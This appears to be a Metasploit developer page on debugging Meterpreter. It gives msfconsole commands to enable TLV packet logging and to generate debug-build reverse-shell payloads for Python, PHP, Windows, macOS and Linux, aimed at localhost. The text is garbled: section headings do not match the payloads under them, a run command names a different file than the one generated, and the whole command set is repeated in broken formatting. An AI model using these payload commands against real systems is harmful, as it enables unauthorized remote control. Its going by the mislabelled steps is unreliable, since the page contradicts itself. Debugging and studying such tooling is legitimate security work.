 ## Log Meterpreter TLV Packets
This can be enabled for any Meterpreter session, and does not require a debug Metasploit build:
```msf
msf6 > setg SessionTlvLogging true
SessionTlvLogging => true
```
### Python payload generation with Meterpreter
Example output:
```
use payload/python/meterpreter_reverse_tcp
generate -o shell.py -f raw lhost=127.0.0.1 MeterpreterDebugBuild=true MeterpreterTryToFork=false
to_handler

python3 shell.py
```

## Meterpreter debug builds
### PHP payload generation with Meterpreter

```
use payload/php/meterpreter_reverse_http
generate -o shell.php -f raw lhost=127.0.0.1 MeterpreterDebugBuild=true
to_handler

php shell_http.php
```


### Windows payload generation with Meterpreter

```
use osx/x64/meterpreter_reverse_tcp
generate -f macho -o shell MeterpreterDebugbuild=true MeterpreterDebugLogging='rpath:/tmp/foo.txt'

to_handler
```

### Mac payload generation with Meterpreter

```
use linux/x64/meterpreter_reverse_tcp
generate -f elf -o shell MeterpreterDebugbuild=true MeterpreterDebugLogging='rpath:/tmp/foo.txt'

to_handler
```

`msf
msf6 > setg SessionTlvLogging true
SessionTlvLogging => true
`

`
use payload/python/meterpreter_reverse_tcp
generate -o shell.py -f raw lhost=127.0.0.1 MeterpreterDebugBuild=true MeterpreterTryToFork=false
to_handler

python3 shell.py
`

`
use payload/php/meterpreter_reverse_http
generate -o shell.php -f raw lhost=127.0.0.1 MeterpreterDebugBuild=true
to_handler

php shell_http.php
`

`
use windows/x64/meterpreter_reverse_tcp
generate -f exe -o shell.exe MeterpreterDebugBuild=true MeterpreterDebugLogging='rpath:C:/Windows/Temp/foo.txt'

to_handler
`

`
use osx/x64/meterpreter_reverse_tcp
generate -f macho -o shell MeterpreterDebugbuild=true MeterpreterDebugLogging='rpath:/tmp/foo.txt'

to_handler
`

`
use linux/x64/meterpreter_reverse_tcp
generate -f elf -o shell MeterpreterDebugbuild=true MeterpreterDebugLogging='rpath:/tmp/foo.txt'

to_handler
`

